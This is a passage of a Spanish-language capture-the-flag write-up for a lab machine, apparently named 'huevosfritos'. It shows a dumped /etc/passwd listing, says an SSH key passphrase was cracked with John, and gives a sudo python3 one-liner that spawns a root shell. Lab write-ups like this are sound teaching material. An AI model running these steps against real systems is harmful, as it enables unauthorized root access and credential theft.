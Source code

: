 ```
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
huevosfritos:x:1001:1001::/home/huevosfritos:/bin/bash
www-data@huevosfritos:/var/backups$
```

Intentamos acceder mediante SSH pero el id_rsa necesita una contraseña.

![Captura de pantalla 2024-11-09 174330](https://github.com/user-attachments/assets/543149ee-f6cb-4485-a40d-6ec479388d25)

Vamos a descifrar la contraseña con John y ahora si acceder por SSH

![Captura de pantalla 2024-11-09 174842](https://github.com/user-attachments/assets/ef0b68d2-72f4-42b8-a031-546c4ec3e7f1)

Siendo el usuario huevosfritos podemos leer user.txt.

![Captura de pantalla 2024-11-09 175303](https://github.com/user-attachments/assets/d512b364-b209-47b3-9023-e37d84f31637)

Con el comando **sudo -l** podemos ejecutar comandos de python como root.

Seguimos las indicaciones de GTFObins.

![Captura de pantalla 2024-11-09 175525](https://github.com/user-attachments/assets/cc8a7c76-c8a3-4e70-a08c-21152293a3c5)

```
sudo -u root /usr/bin/python3 -c 'import os; os.system("/bin/sh")'
```

![Captura de pantalla 2024-11-09 175819](https://github.com/user-attachments/assets/bcf00681-e5ef-4500-8573-5e026dc25783)

Y con esto podemos leer root.txt

Maquina terminada 🥳✅
